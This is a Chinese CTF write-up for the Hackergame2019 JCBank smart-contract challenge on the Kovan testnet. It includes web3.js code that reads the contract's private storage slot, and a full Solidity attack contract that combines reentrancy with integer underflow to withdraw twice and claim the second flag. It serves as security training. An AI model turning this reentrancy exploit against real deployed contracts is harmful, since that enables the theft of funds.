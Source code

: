 ## Hackergame2019 JCBank

* 以太坊 `Kovan` 测试链
* 合约地址：[https://kovan.etherscan.io/address/0xE575c9abD35Fa94F1949f7d559056bB66FddEB51](https://kovan.etherscan.io/address/0xE575c9abD35Fa94F1949f7d559056bB66FddEB51)
* 题目：[https://github.com/f61d/challenges/tree/master/misc/blockchain/Hackergame2019_JCBank/attachment](https://github.com/f61d/challenges/tree/master/misc/blockchain/Hackergame2019_JCBank/attachment)

### Analysis

* 两个 `flag` :
    * `get_flag_1`
    * `get_flag_2`

* `get_flag_1` 读取 `storage` 变量 `secret` 的值即可，其位于 `slot 0` 的位置，其值为 `0x175bddc0da1bd47369c47861f48c8ac` ，调用 `get_flag_1` 即可

```javascript
var Web3=require("web3");
if (typeof web3 !== 'undefined') {
    web3 = new Web3(web3.currentProvider);
} else {
    web3 = new Web3(new Web3.providers.HttpProvider("https://kovan.infura.io/v3/b38f10b5036f4e6691fcc690461097d1"));
}

var address="0xE575c9abD35Fa94F1949f7d559056bB66FddEB51";
web3.eth.getStorageAt(address, 0, function(x,y){console.info(y)});
web3.eth.getStorageAt(address, 1, function(x,y){console.info(y)});
web3.eth.getStorageAt(address, 2, function(x,y){console.info(y)});
```

* `get_flag_2` 利用 <span id="inline-blue">Reentrancy</span> 和 <span id="inline-yellow">整型下溢</span>

```javascript
contract hack {
    address instance_address = 0xE575c9abD35Fa94F1949f7d559056bB66FddEB51;
    JCBank target = JCBank(instance_address);
    uint public have_withdraw = 0;
    string public s;
    
    constructor() public payable {}
    
    function attack() public {
        target.deposit.value(0.1 ether)();
    }
    
    function attack1(uint128 guess) public {
        s=target.get_flag_1(guess);
    }
    
    function attack2() public {
        if(have_withdraw == 1){
            target.get_flag_2(155418233698);
        }
    }

    function attack3() public {
        target.withdraw(0.1 ether);
    }

    function() payable {
        if (have_withdraw == 0 && msg.sender == instance_address){
            have_withdraw = 1;
            target.withdraw(0.1 ether);
        }
    }
}
```

* `attack` 存入一点金额，`attack3` 重入攻击两次， `attack2` 调用 `get_flag_2` 即可
